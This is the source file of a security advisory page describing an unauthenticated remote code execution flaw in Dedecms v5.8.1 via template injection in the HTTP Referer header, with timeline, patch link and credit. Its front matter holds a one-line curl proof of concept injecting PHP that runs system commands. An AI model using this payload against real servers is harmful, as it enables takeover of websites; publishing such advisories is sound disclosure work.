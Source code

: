 ```yaml
---
layout: page
permalink: /advisories/src-2021-0022/
id: SRC-2021-0022
atitle: Dedecms ShowMsg Template Injection Remote Code Execution Vulnerability
CVE: N/A
CVSSrating: 9.8
CVSSscore: (/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
vendor: Dedecms
affected: Dedecms v5.8.1 pre-release
timeline: [
2021-09-23 – Sent to Dedecms,
2021-09-25 – Silent patch in commit 8c1f1a3b66b08b7c093cf7a3102d80e23f30d4b1,
2021-09-30 – Uncoordinated public release of advisory,
]
credit: Steven Seeley (mr_me) of Qihoo 360 Vulcan Team
body: |
 <p class="cn" markdown="1">This vulnerability allows remote attackers to execute arbitrary code on affected installations of Dedecms. Authentication is not required to exploit this vulnerability.</p>
 <p class="cn" markdown="1">The specific flaw exists within the processing of the rendering templates. The issue results from the lack of proper validation of a user-supplied HTTP referer header when processing error messages. An attacker can leverage this vulnerability to execute code in the context of the web server.</p>
acknowledgments:
poc: curl --referer '<?php "system"($c);die;/*' 'http://target.tld/plus/flink.php?dopost=save&c=id'
---
```


#### **{{page.id}} : {{page.atitle}}**

**CVE ID:**
{{page.CVE}}

**CVSS Score:**
{{page.CVSSrating}}, [{{page.CVSSscore}}](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector={{page.CVSSscore}})

**Affected Vendors:**
{{page.vendor}}

**Affected Products:**
{{page.affected}}
{% if page.affectedlist %}
{% for item in page.affectedlist %}
  - {{ item }}
{% endfor %}
{% endif %}
**Vulnerability Details:**
{{page.body}}

**Vendor Response:**

{{page.vendor}} has issued an update to correct this vulnerability. Technical details can be found at: [https://github.com/dedecms/DedeCMS/commit/8c1f1a3b66b08b7c093cf7a3102d80e23f30d4b1](https://github.com/dedecms/DedeCMS/commit/8c1f1a3b66b08b7c093cf7a3102d80e23f30d4b1)

**Disclosure Timeline:**
{% for item in page.timeline %}
  - {{ item }}
{% endfor %}
{% if page.poc %}

**Proof of Concept:**
```{{page.poc}}```

{% endif %}
**Credit:**
This vulnerability was discovered by {{page.credit}}
{% if page.acknowledgments %}

**Acknowledgments:**
{{page.acknowledgments}}
{% endif %}
